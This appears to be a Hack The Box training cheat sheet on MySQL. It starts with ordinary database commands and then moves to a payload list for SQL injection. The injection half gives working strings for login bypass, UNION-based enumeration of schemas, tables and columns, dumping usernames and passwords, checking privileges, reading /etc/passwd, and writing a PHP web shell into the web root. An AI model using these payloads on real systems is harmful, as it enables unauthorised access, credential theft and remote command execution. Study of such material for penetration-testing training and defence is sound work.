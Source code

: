 # MySQL Cheat Sheet

## General Commands

|**Command**|**Description**|
|---|---|
|`mysql -u root -h docker.hackthebox.eu -P 3306 -p`|Login to MySQL database|
|`SHOW DATABASES`|List available databases|
|`USE users`|Switch to a database|

---

## Table Commands

|**Command**|**Description**|
|---|---|
|`CREATE TABLE logins (id INT, ...)`|Add a new table|
|`SHOW TABLES`|List tables in the current database|
|`DESCRIBE logins`|Show table properties and columns|
|`INSERT INTO table_name VALUES (value_1, ...)`|Add values to a table|
|`INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)`|Add values to specific columns|
|`UPDATE table_name SET column1=newvalue1, ... WHERE <condition>`|Update table values|

---

## Column Commands

|**Command**|**Description**|
|---|---|
|`SELECT * FROM table_name`|Show all columns in a table|
|`SELECT column1, column2 FROM table_name`|Show specific columns in a table|
|`DROP TABLE logins`|Delete a table|
|`ALTER TABLE logins ADD newColumn INT`|Add a new column|
|`ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn`|Rename a column|
|`ALTER TABLE logins MODIFY oldColumn DATE`|Change column datatype|
|`ALTER TABLE logins DROP oldColumn`|Delete a column|

---

## Output Commands

|**Command**|**Description**|
|---|---|
|`SELECT * FROM logins ORDER BY column_1`|Sort results by column|
|`SELECT * FROM logins ORDER BY column_1 DESC`|Sort results in descending order|
|`SELECT * FROM logins ORDER BY column_1 DESC, id ASC`|Sort by multiple columns|
|`SELECT * FROM logins LIMIT 2`|Show the first two results|
|`SELECT * FROM logins LIMIT 1, 2`|Show two results starting at index 2|
|`SELECT * FROM table_name WHERE <condition>`|List results meeting a condition|
|`SELECT * FROM logins WHERE username LIKE 'admin%'`|Find rows where the name matches pattern|

---

## MySQL Operator Precedence

1. **Division** (`/`), **Multiplication** (`*`), **Modulus** (`%`)
2. **Addition** (`+`) and **Subtraction** (`-`)
3. **Comparison** (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
4. **NOT** (`!`)
5. **AND** (`&&`)
6. **OR** (`||`)

---

## SQL Injection Payloads

### Authentication Bypass

|**Payload**|**Description**|
|---|---|
|`admin' or '1'='1`|Basic auth bypass|
|`admin')-- -`|Auth bypass with comments|

### Union Injection

|**Payload**|**Description**|
|---|---|
|`' order by 1-- -`|Detect the number of columns|
|`cn' UNION select 1,2,3-- -`|Test columns via union injection|
|`cn' UNION select 1,@@version,3,4-- -`|Test union injection with MySQL version|
|`UNION select username, 2, 3, 4 from passwords-- -`|Union injection for data retrieval|

---

### Database Enumeration

|**Payload**|**Description**|
|---|---|
|`SELECT @@version`|Fingerprint MySQL with query output|
|`SELECT SLEEP(5)`|Fingerprint MySQL with no output|
|`cn' UNION select 1,database(),2,3-- -`|Current database name|
|`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`|List all databases|
|`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`|List tables in a specific database|
|`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`|List columns in a specific table|
|`cn' UNION select 1, username, password, 4 from dev.credentials-- -`|Dump data from another database|

---

### Privileges

|**Payload**|**Description**|
|---|---|
|`cn' UNION SELECT 1, user(), 3, 4-- -`|Find the current user|
|`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`|Check if user has admin privileges|
|`cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`|List user privileges|
|`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`|Check accessible directories|

---

### File Injection

| **Payload**                                                                                               | **Description**                             |
| --------------------------------------------------------------------------------------------------------- | ------------------------------------------- |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                  | Read a local file                           |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                              | Write a string to a local file              |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a PHP web shell to the base directory |
